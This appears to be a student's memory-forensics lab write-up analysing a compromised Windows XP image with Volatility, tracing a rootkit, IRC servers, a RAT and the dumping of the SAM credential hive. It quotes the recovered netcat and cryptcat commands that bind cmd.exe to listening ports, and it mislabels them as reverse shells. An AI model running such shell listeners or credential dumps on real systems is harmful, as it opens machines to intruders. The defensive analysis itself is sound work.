 1.)  What operating system is the computer using? What version?  
![[Pasted image 20241106190441.png]]
	WinXPSP2x86

2.) How much RAM is included in the analysis?  



3.) View the running processes. Does this look like your average box?  
 ![[Pasted image 20241106191446.png]]

While the System seems to start as normal, there are many processes that do not belong on an average box. 

a. What processes look abnormal? What makes them abnormal?  

These processes stand out when compared to an average box. 
```
hxdef100.exe- backdoor rootkit
cryptcat.exe- Listener that can be used to create reverse shells.
bircd.exe- IRC that can be used for malicious communication through IRC.
iroffer.exe- IRC file transfer service
poisonivy.exe- RAT trojan backdoor
nc.exe- netcat listener to create reverse shells. 
```

These processes can also be linked to IP addresses associated with their PID's.

![[Pasted image 20241106191729.png]]
1728 is iroffer.exe
1480 is bircd.exe
480 is poisonivy.exe
D
4.) Can you find user account names? Passwords? If not why not?  

Our hive-scan revealed hex locations we can use to scan for users since hive-dump alone provided no results. 


![[Pasted image 20241107072138.png]]

The hex did not reveal much, but with a google search on how to identify registry hives for user accounts, we can begin to search for `SAM\Domains\Account\Users`

Using Volatility's print-key feature we revealed the sub-keys under the registry. 
The `Names` key, stands out. 

![[Pasted image 20241107072932.png]]
![[Pasted image 20241107073311.png]]
Traversing to the /Names registry, we can now see the names of all the users.

Using filescan, we can further investigate the location offset of the Sam registery

![[Pasted image 20241107073908.png]]

![[Pasted image 20241107075314.png]]
![[Pasted image 20241107075607.png]]



We can dump these files in our specified directory using the dumpfiles flag and specifying the SAM offset
 
![[Pasted image 20241107074412.png]]


5.) View the Dynamically Linked Libraries. Does this look like your average box?  

a. What DLLs look abnormal?  
```
rundll32.exe
fldrclnr.dll
Wizard_RunDLL
```

6.)Can you associate any Processes (PIDs), DLLs, and executables?  

![[Pasted image 20241109133446.png]]

![[Pasted image 20241109133612.png]]

![[Pasted image 20241109133636.png]]
![[Pasted image 20241109133728.png]]



![[Pasted image 20241109133549.png]]


7.) View the files associated with the processes.  
![[Pasted image 20241106195612.png]]
![[Pasted image 20241106195642.png]]
![[Pasted image 20241106195659.png]]

a. Do any files or file paths look abnormal? Reference the file path if available.  

Many files stand out as suspicious when viewing the process list. specifically the files
hxdef100.exe, birc.exe and iroffer.exe. 
`c:\hxdefrootkit\hxdef100.exe hxdef100.ini`
Cryptcat.exe was used with the command:
`C:\hxdefrootkit\cryptcat.exe -L -p 666 -e cmd.exe`
Once the shell was created using cryptcat on port 666, the bircd.exe was executed.
`C:\hidden\bewareircd-win32\bircd.exe`
then
`C:\hidden\ir\iroffer.exe`


8.) Explain what you think happened to this box. Have you seen anything before

Based on the evidence found during the memory analysis, we can visualize the hackers footsteps. 
Windows services appear to start up as normal. We can view the pstree and see the processes which are associated with the system start. 

We see the intruder gained a foothold using the rootkit Hacker Defender: `hxdef100.exe`
This is a well known rootkit used to allow a user to hide files, processes, system services, system drivers, registry keys and values, open ports, cheat with free disk space. Program also masks its changes in memory and hides handles of hidden processes. Program installs hidden back-doors, register as hidden system service and installs hidden system driver.

The intruder begins by editing the hxdef100.ini configuration file. Shortly after the intruder set up a reverse shell listening device on port 666 using crpytcat.exe.
Next  `bircd.exe`  was executed.
`bircd.exe` is he executable for beware ircd, a lightweight IRC that can be used for malicious exploits. In this case it was stored in the `/hidden` directory indicating nefarious use. This program can be particularly strong for an intruder due to the program not being visible; there is no window, or tray icon. It just runs. 

Now that the intruder has gained a foothold with a rootkit and set up an invisible IRC. This can be used by hackers as a command and control to communicate with multiple machines.

Next the `iroffer.exe` executable was ran from the `/hidden` directory.
iroffer is a software program that acts as a fileserver for IRC.
It is similar to a FTP server or WEB server, but users can download
files using the DCC protocol of IRC instead of a web browser, giving the intruder access to transfer files into the machine. 

Poisonivy.exe can then be seen running from the /System32 directory. This was found in the previous lab and can be associated with a known backdoor known as a Remote Administration Tool (RAT).

Shortly after, the intruder executed another reverse shell using netcat with:
`C:\inetpub\ftproot\nc.exe -L -p 6666 -e cmd.exe` 

It seems this reverse shell was used to execute the commands for winvnc4.exe likely to gain remote access and the lock.bat file, which was found in the previous lab to lock down the system when needed., while  
Before the command line logs end the command `C:\WINDOWS\System32\rundll32.exe fldrclnr.dll,Wizard_RunDLL` was ran which can be the DLL's used to run malicious code from DLL's or hide evidence. 







![[Pasted image 20241106191605.png]]
![[Pasted image 20241106191648.png]]
![[Pasted image 20241106191729.png]]



refrences
https://github.com/dinoex/iroffer-dinoex
https://github.com/claudiouzelac/rootkit.com/blob/master/hf/hxdef100r/readmeen.txt
https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/poisonivy